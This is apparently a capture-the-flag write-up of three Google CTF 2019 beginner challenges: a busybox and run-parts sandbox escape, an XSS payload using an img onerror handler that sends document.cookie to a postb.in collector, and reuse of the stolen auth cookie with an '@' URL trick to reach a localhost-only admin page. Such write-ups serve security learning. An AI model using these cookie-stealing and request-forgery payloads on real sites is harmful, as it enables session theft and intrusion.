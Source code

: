 # GoogleCTF
## 2019 - Beginner Quest (Part 3)
[lint to Part 1](./GoogleCTF_Beginner_Quest.html)
[lint to Part 2](./GoogleCTF_Beginner_Quest_2.html)

### Day 3 - Work Computer (sandbox)
#### Steps
1. There is another flag hidden in the task. We cannot open the "ORME.flag" using the same method as the origional method. listing the permission, we can see that there are no permission for the current user.
    ```console
    > tar -c ORME.flag
    tar: can't open 'ORME.flag': Permission denied
    tar: error exit delayed from previous errors
    > ls -l
    total 8
    ----------    1 1338     1338            33 Aug  3 13:27 ORME.flag
    -r--------    1 1338     1338            28 Aug  3 13:27 README.flag
    ```
1. Again, we have to enumerate to find all commands in `/bin`. After searching and reference from other [write-ups](https://github.com/AidanFray/CTF_Writeups/tree/master/2019/GoogleCTF/BeginnerQuests/WorkComputer), we can find the useful command `run-parts`.
    1. Firstly we install the environment in tmp, making the directory having only one command.
        > install /bin/busybox /tmp
    1. Then we can test it through the `run-parts` command:
        ```console
        > run-parts /tmp
        BusyBox v1.29.3 (2019-01-24 07:45:07 UTC) multi-call binary.
        BusyBox is copyrighted by many authors between 1998-2015.
        Licensed under GPLv2. See source distribution for detailed
        copyright notices.
        ```
    1. then we can call the shell out. Note that as the 'busybox' we installed is a fresh new instance, it has the commands like 'chmod' that is not exist with the instance that we enconter when we connects in it.
        ```console
        > run-parts /tmp --arg sh 
        $ ls
        ORME.flag
        README.flag
        $ busybox chmod 777 ORME.flag    
        $ busybox cat ORME.flag
        CTF{XXXXXXXXXXXXXXXXXXXXXX}
        ```


### Day 5 - Cookie World Order (web) 
#### Steps
1. In this task, we are given a website with a video and a chartroom. we can type things into the chatroom, but any XSS script will be translated to `HACKER ALERT` comment.
    ![Webpage](./images/GoogleCTF/beginner_quest/img11.png) 
1. But the blind spot is that HTML is still valid and javascript in `onerror` is not checked. Therefore we can use the same XSS trick as Part 1 with our postb.in friend. Then there is our flag!
    > &lt; img src="x" onerror="document.location='https://postb.in/1564843387388-4921431124676/?'+document.cookie"&gt;
    ![Flag](./images/GoogleCTF/beginner_quest/img12.png) 



### Day 4 - Cookie World Order (web) 
#### Steps
1. With the flag, there comes with another cookie `auth`, which may bring us to another flag:
    > auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
1. Remember the previous XSS flag, where there is a '/admin' directory? yes, there is an admin directory here too. Only that it redirects us back to the website unless we give the `auth` cookie.
    > document.cookie = "auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz"
    ![Admin site](./images/GoogleCTF/beginner_quest/img13.png) 
1. Well there is not much to see, and the 'Camera Control' tab is not working too.
    > Requests only accepted from 127.0.0.1
1. Then we have to find other ways to locate the file 'locally'. Enumering all the urls we have, the streaming path is a local file we found:
    > /watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm
1. However, trying to replace the path solely is not enough as it is not recongized also as a local file request. We have to fake the server by putting a additional '@' sign to trick it. After that our flag appears!
    > http://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@localhost/admin/controls
    ![Flag](./images/GoogleCTF/beginner_quest/img14.png) 
